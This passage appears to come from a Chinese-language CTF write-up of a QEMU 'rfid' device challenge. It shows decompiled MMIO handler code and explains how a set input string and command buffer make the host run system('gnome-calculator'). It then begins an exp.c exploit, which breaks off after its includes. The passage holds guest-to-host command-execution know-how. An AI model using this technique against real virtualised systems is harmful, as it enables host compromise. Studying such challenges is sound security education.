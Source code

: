 ```c
        input[idx] = 's';
      }
      break;
    case 2uLL:
      if ( idx >= 0 && idx <= 15 )
      {
        result = input;
        input[idx] = 'a';
      }
      break;
    case 3uLL:
      if ( idx >= 0 && idx <= 15 )
      {
        result = input;
        input[idx] = 'd';
      }
      break;
    case 4uLL:
      if ( idx >= 0 && idx <= 15 )
      {
        result = input;
        input[idx] = 'A';
      }
      break;
    case 5uLL:
      if ( idx >= 0 && idx <= 15 )
      {
        result = input;
        input[idx] = 'B';
      }
      break;
    case 6uLL:
      v10 = (unsigned __int16)arg11;
      result = memcpy(&command[(unsigned __int16)arg11], &n[4], size);
      break;
    default:
      return result;
  }
  return result;
}
```

综上所述，我们那两轮`rfid_mmio_write`设置`input`为`wwssadadBABA`，设置`command`为`gnome-calculator`，最后调用`rfid_mmio_read`触发`system("gnome-calculator")`，弹出计算器

### exp.c

```c
#include <sys/io.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sys/types.h>

unsigned char* mmio_mem;

void die(const char* msg)
{
    perror(msg);
```
